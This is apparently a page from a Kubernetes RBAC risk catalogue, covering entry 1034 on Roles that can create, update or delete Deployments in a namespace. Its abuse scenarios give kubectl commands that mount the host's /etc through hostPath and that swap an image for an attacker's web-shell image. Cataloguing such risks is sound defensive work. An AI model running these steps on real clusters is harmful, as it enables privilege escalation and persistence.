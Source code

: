 ```yaml
---
id: 1034
title: "Manage Deployments in a namespace (potential for privileged pod execution)"
description: "Grants permission to create, update, or delete Deployments within a specific namespace. This can be used to deploy pods with privileged settings within that namespace, potentially leading to privilege escalation, persistence, and tampering with applications."
category: Elevation of Privilege
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field                   | Value                                                                                                                        |
| ----------------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| ID                      | 1034                                                                                                                         |
| Name                    | Manage Deployments in a namespace (potential for privileged pod execution)                                                   |
| Risk Category           | Elevation of Privilege                                                                                                       |
| Risk Level              | {{< risk High >}}                                                                                                            |
| Role Type               | Role                                                                                                                         |
| API Groups              | apps                                                                                                                         |
| Resources               | deployments                                                                                                                  |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete]                                                                                     |
| Tags                    | {{< tag "Persistence" >}} {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Grants permission to create, update, or delete Deployments within a specific namespace. This can be used to deploy pods with privileged settings within that namespace, potentially leading to privilege escalation, persistence, and tampering with applications.

## Abuse Scenarios

1. Create a new Deployment with a hostPath mount in the namespace.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: apps/v1
kind: Deployment
metadata:
  name: hostpath-deployment
spec:
  replicas: 1
  selector:
    matchLabels:
      app: hostpath-app
  template:
    metadata:
      labels:
        app: hostpath-app
    spec:
      containers:
      - name: hostpath-container
        image: busybox
        command: ["/bin/sh", "-c", "sleep infinity"]
        volumeMounts:
        - mountPath: /host-etc
          name: host-etc
      volumes:
      - name: host-etc
        hostPath:
          path: /etc
EOF
# Example: kubectl create -n development -f - <<EOF ... EOF

```

2. Update an existing Deployment's image to a malicious one.

```bash
kubectl set image deployment/<deployment-name> <container-name>=<malicious-image> -n <namespace>
# Example: kubectl set image deployment/my-web-app web=attacker/web-shell -n default

```

